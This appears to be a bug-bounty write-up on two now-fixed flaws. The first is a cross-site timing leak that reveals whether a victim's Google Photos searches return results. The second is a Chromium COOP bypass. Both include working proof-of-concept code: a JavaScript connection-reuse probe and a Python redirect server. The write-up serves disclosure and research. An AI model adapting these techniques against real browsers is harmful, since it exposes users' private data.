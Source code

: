 ```yaml
---
title: XS-Search on Google Photos
---
```


Google Photos is a service by Google, a subsidiary of Alphabet used to store and view user uploaded duck photos.

# XS-Leak (Fixed, Awarded $1337)

This attack is documented at <https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/#connection-reuse> and was done as part of a grant of $500.  
Usage is `await search('duck')` to leak if a query exists (If victim took a photo of a duck)

```js
async function isConnected() {
  // Detect connection reuse for lh3.googleusercontent.com
  // No timing attack needed because of timing-allow-origin: *
  performance.clearResourceTimings();
  await fetch('https://lh3.googleusercontent.com/', {mode: 'cors'});
  await new Promise((r) => setTimeout(r, 1000));
  let data = performance.getEntries().pop();
  return data.connectStart === data.startTime;
}

async function search(query) {
  let w = open();
  // Close connections using idle timeout.
  await new Promise((r) => setTimeout(r, 30000));
  // First try is free, next needs COOP or user activation bypass.
  w.location = 'https://photos.google.com/search/' + query;
  await new Promise((r) => setTimeout(r, 5000));
  return await isConnected();
}
```

I think this was fixed as part of <https://chromium-review.googlesource.com/c/chromium/src/+/4387455>

# COOP bypass (Fixed, Awarded $3000)

Abuses the Chromium auto reloader using a invalid server response, also worked with max redirect limit.

```js
from http.server import BaseHTTPRequestHandler, HTTPServer

sessions = set()

class handler(BaseHTTPRequestHandler):
    def do_GET(self):
        if (self.path not in sessions):
            self.send_response(200)
            self.send_header("Cache-Control", "no-store")
            message = "<invalid>"
            self.wfile.write(bytes(message, "utf8"))
            self.end_headers()
            sessions.add(self.path)
        else:
            self.send_response(307)
            self.send_header('Cache-Control', 'no-store')
            self.send_header('Location','https://photos.google.com/search/duck')
            self.end_headers()
            sessions.remove(self.path)

with HTTPServer(('', 8000), handler) as server:
    server.serve_forever()
```

This was fixed in <https://issues.chromium.org/40060695>
